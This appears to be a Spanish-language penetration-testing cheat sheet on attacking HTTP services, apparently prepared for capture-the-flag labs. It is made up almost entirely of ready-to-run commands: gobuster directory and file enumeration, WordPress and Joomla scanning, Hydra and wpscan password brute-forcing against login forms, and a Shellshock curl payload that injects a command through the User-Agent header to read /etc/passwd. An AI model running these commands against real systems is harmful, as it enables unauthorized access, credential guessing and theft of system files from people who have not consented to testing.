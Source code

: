 # HTTP
Protocolo de comunicación que permite las transferencias de información en la World Wide Web sirve como base para muchos otros servicios

## Enumeración
### Encontrar subdirectorios
```
gobuster -u URL -w wordlist
```
### Encontrar scripts ocultos
```
gobuster -u URL -w wordlist -x .js, .py, .phpX , .aspx , .sh
```
### Encontrar archivos que puedan contener información sensible
```
gobuster -u URL -w wordlist -x .txt, .conf , .config , .bak
```
### Enumera wordpress
```
wpscan --url -e vp,u,cb,dbe
```
### Enumerar joomla
```
perl joomscan.pl -u URL
```


## Ataques por fuerza bruta
### Wordpress login bruteforce
```
wpscan --url URL --wordlist DICTIONARYPATH --username USERNAME
```
### Hydra POST login
```
hydra -L USERLIST -P PASSLIST IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" 
```
### Hydra BruteForce HTTP GET
```
hydra -L UserList -P PassList IP http-get Directorio
```
## Vulnerabilidades comunes sin metasploit
### Shellshock cgi-bin
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://IP/cgi-bin/script.sh
```
